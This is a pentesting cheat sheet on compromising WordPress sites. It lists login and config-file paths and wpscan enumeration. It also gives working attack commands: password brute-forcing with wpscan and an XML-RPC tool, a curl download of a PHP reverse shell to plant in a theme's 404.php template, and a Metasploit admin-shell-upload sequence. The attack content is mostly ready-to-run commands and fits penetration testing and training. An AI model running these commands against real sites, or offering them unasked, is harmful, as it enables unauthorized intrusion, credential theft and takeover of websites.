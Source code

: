 # Wordpress 


#### Important Access Issues

If you do compromise a Wordpress site admin account some versions have a nasty feature of preventing login-by-mistake:
- Do not `Press remind my later` or `This is my email`
- press `update` and do not update it 


#### Checklist

- Get Wordress version - see below
- Login pages including 
	- `/wp-admin/login.php`
    - `/wp-admin/wp-login.php`
    - `/login.php`
    - `/wp-login.php`
- Themes and Plugins are stored: `/wp-content/` 
- Uploads are stored: `/wp-content/uploads/`
- Core file (certificates, fonts, JavaScript and widgets) are stored `/wp-includes/`
- `wp-sitemap.xml` *Wordpress versions 5.5 and greater, Worpress generates a sitemap XML file with all public posts and publicly queryable post types and taxonomies.*
- `robots.txt`
- `license.txt`
- `/var/www/html/wp-config.php` contain credentials
- Enumerate users with `-u` with `wpscan`

Get WordPress Version
```bash
curl https://$victim.tld/$wordpress | grep 'content="WordPress'
```

#### Wordpress Accounts 

[HackTricks Wordpress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)
- **Administrator** `admin : ...`
- **Editor**: Publish and manages his and others posts
- **Author**: Publish and manage his own posts
- **Contributor**: Write and manage his posts but cannot publish them
- **Subscriber**: Browser posts and edit their profile

#### `wpscan`

`wpscan` has [free 25 API requests per day](https://wpscan.com/pricing)
```bash
# -e not argument - default is vp,vt,tt,cb,dbe,u,m
wpscan --url $url --rua -e --api-token $APIKEY # -o filename
# optional - all plugins, themes, plus timthumbs
# vp,vt,tt,cb,dbe,u,m
ap at t tt dbe u m cb

# Output to file
-o 

# Brute forcing Admin user
wpscan --url $url --api-token $APIKEY -U admin -P /usr/share/wordlists/rockyou.txt

# Weird TLS issues
--disable-tls-checks
```

Display all potential vulnerabilities to `stdout`
```bash
cat zeroauth.wpscan | grep 'Title' -A 1
```
#### Scanning and Enumeration 

```bash
# Username can be guessed on WordPress since the username will generate a different error message if it doesn't exist.

# Interesting files
https://monsite.com/robots.txt
https://monsite.com/feed
https://monsite.com/readme.html
https://monsite.com/xmlrpc.php

# Configuration files
https://monsite.com/.htaccess
https://monsite.com/wp-config.php

# Directory listing
https://monsite.com/wp-includes

# XML-RPC attack (https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit)
# You can bruteforce users
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1

# If by any way you can upload files, go check /upload or /uploads for your files

# Get WPEngine's config file
/_wpeprivate/config.json
```
#### Content Discovery

Seclist wordlists
```bash
/usr/share/wordlists/seclists/Discovery/Web-Content/URLs/urls-wordpress-3.3.1.txt
/usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt
/usr/share/wordlists/seclists/Passwords/Honeypot-Captures/wordpress-attacks-july2014.txt
```

#### Shells

```bash
# You can reverse shell by editing templates (404.php, footer.php...)
# Theme Editor use a 404 template as it won't break the site.
# Plugin Editor then go to /wp-content/plugins/<pluginname.php>
# Beware Theme must be active 
curl -L https://raw.githubusercontent.com/jbarcia/Web-Shells/master/laudanum/wordpress/templates/php-reverse-shell.php -o php-reverse-shell.php
```
Seclists
```bash
/usr/share/wordlists/seclists/Web-Shells/WordPress
/usr/share/wordlists/Web-Shells/laudanum-1.0/wordpress/templates/shell.php
```

404.php on the theme and browser to it to get a shell:
```php
/wordpress/wp-content/themes/twentyfifteen/404.php
```


[[Metasploit]] - Minor improvements from https://www.hackingarticles.in/wordpress-reverse-shell/
```ruby
msfconsole -q -x 'use exploit/unix/webapp/wp_admin_shell_upload'
set RHOST domain.tld
set USERNAME admin
set PASSWORD admin
set targeturi /wordpress
exploit
```
For example the modifying the 404.php page for the twentyfifteen theme will located:
```php
/wordpress/wp-content/themes/twentyfifteen/404.php
```

#### Hashes
```bash
# Hashcat Hashmode = 400
```


## References

[haax.fr](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/)
[hackingarticles - wordpress reverse shell](https://www.hackingarticles.in/wordpress-reverse-shell/)
[HackTricks Wordpress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)